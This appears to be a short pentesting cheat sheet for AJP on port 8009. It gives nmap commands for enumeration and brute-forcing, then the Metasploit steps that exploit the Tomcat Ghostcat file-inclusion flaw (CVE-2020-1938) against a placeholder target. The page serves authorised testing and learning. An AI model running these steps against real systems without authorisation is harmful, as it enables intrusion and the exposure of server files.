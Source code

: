 ```yaml
---
title: AJP (Apache JServ Protocol) Pentesting
description: AJP is a binary protocol that can proxy inbound requests from a web server through to an application server that sits behind the web server. A default port is 8009.
tags:
    - AJP
    - Web
refs:
date: 2022-11-22
draft: false
---
```


## Enumeration

```sh
nmap --script ajp-auth -p 8009 <target-ip>
nmap --script ajp-auth --script-args ajp-auth.path=/login -p 8009 <target-ip>
nmap --script ajp-brute -p 8009 <target-ip>
nmap --script ajp-headers -p 8009 <target-ip>
nmap --script ajp-methods -p 8009 <target-ip>
nmap --script ajp-request -p 8009 <target-ip>
```

<br />

## Ghostcat File Inclusion

It's a vulnerability of **Tomcat AJP** ([CVE-2020-1938](https://www.exploit-db.com/exploits/49039)).  
Use Metasploit for exploiting it.

```sh
msfconsole
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts <target-ip>
msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
```
